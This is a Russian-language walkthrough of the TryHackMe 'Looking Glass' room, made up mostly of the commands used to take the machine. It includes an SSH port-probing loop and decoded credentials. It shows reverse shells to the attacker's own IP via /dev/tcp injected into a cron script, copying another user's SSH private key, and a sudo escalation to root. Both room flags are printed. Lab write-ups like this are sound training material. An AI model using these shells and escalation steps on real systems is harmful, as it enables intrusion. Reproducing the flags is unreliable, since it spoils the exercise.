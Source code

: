 [>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)

# Комната [Looking Glass](https://tryhackme.com/r/room/lookingglass) 

Всего 1 заданиe:
## Задание 1
Проберитесь сквозь Зеркало и захватите флаги.
### Ответьте на вопросы ниже
Получите флаг пользователя.
```commandline
nmap -sSCV -p- <IP>
for i in $(seq 9800 111111); do echo "connecting to port $i"; ssh -o 'LogLevel=ERROR' -o 'StrictHostKeyChecking=no' -p $i test@<IP>;done | grep -vE 'Lower|Higher'
#  jabberwocky
CyberChef > thealphabetcipher
jabberwock:bewareTheJabberwock

ssh jabberwock@<IP> -p 22
jabberwock:bewareTheJabberwock
cat uxer.txt
# reverse
```
```commandline
thm{65d3710e9d75d5f346d2bac669119a23}
```
+ 100
Получите корневой флаг.
```commandline
sudo -l
cat /etc/crontab

vim twasBrillig.sh
sh -i >& /dev/tcp/<my_own_IP>/4444 0>&1

nc -nlvp 4444
ls -la
cat humptydumpty.txt
# SHA256
su humptydumpty
cat poetry.txt
cp /home/alice/.ssh/id_rsa /home/humptydumpty
chmod 600 id_rsa
ssh alice@<IP> -i id_rsa
bash -i >& /dev/tcp/<my_own_IP>/5555 0>&1
pwncat --listen --port 5555
chmod +x lse.sh
./lse.sh -l 1 | tee lse.txt
sudo -h ssalg-gnikool -l -l
sudo -h ssalg-gnikool /bin/bash
cat /root/root.txt
```
```commandline
thm{bc2337b6f97d057b01da718ced6ead3f}
```

[>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)